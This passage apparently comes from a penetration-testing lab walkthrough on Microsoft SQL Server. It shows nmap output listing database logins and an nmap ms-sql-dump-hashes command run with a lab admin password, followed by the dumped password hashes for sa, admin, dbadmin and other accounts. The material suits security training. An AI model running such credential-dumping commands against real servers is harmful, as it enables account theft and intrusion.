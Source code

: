 ```sh
|       0x010600000000000550000000703344e71d40b7ffb8844562a9e3c7d4fd9771d8	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0	NT Service\MSSQL$SQLEXPRESS	master	Null	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	NT Service\MSSQL$SQLEXPRESS
|       0x01020000000000052000000021020000	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	00	0	0	0	BUILTIN\Users	master	Null	us_english	0	1	1	1	0	0	00	0	0	0	0	0	BUILTIN\Users
|       0x010100000000000512000000	9	2021-01-20T01:47:08	2021-01-20T02:50:35	2021-01-20T01:47:08	0	00	0	0	NT AUTHORITY\SYSTEM	master	Null	us_english	0	1	1	0	1	1	00	0	0	0	0	0	NT AUTHORITY\SYSTEM
|       0x0106000000000005500000002c4559766def9a2f8e23ea83ae7c7f71254cb2cc	9	2021-01-20T01:47:09	2021-01-20T01:47:09	2021-01-20T01:47:09	0	0	0	0	0	NT SERVICE\SQLTELEMETRY$SQLEXPRESS	master	Nullus_english	0	1	1	0	1	0	0	0	0	0	0	0	0	NT SERVICE\SQLTELEMETRY$SQLEXPRESS
|       0x4a84b80919150844b881d1c2fead7f03	9	2021-01-20T02:48:23	2021-01-20T02:48:23	2021-01-20T02:48:23	00	0	0	0	admin	master	Null	us_english	0	1	0	0	0	1	0	00	0	0	0	0	admin
|       0xc923586600ca1d40a00bcea3f83cf029	9	2021-01-20T02:50:33	2021-01-20T02:50:36	2021-01-20T02:50:33	00	0	0	0	Mssql	master	Null	us_english	0	1	0	0	0	1	0	00	0	0	0	0	Mssql
|       0xdab05f73c5a136409081bc4dd4bb1173	9	2021-01-20T03:01:26	2021-01-20T03:15:57	2021-01-20T03:01:26	00	0	0	0	Mssqla	master	Null	us_english	0	1	0	0	0	1	0	00	0	0	0	0	Mssqla
|       0x09f200d8751d4040b72ae7bd09a43fe0	9	2021-01-20T03:31:14	2021-01-20T03:31:14	2021-01-20T03:31:14	00	0	0	0	auditor	master	Null	us_english	0	1	0	0	0	0	0	00	0	0	0	0	auditor
|_      0x1f80eace64083c4598d9fc5c34060c84	9	2021-01-20T03:31:47	2021-01-20T03:31:47	2021-01-20T03:31:47	00	0	0	0	dbadmin	master	Null	us_english	0	1	0	0	0	0	0	00	0	0	0	0	dbadmin
```

To dump the hashes, we can use the following command:

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:38 IST
Nmap scan report for 10.5.29.39
Host is up (0.0018s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-dump-hashes: 
| [10.5.29.39:1433]
|     sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0
|     ##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c
|     ##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083
|     admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0
|     Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4
|     Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5
|     auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e
|_    dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b
```


[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.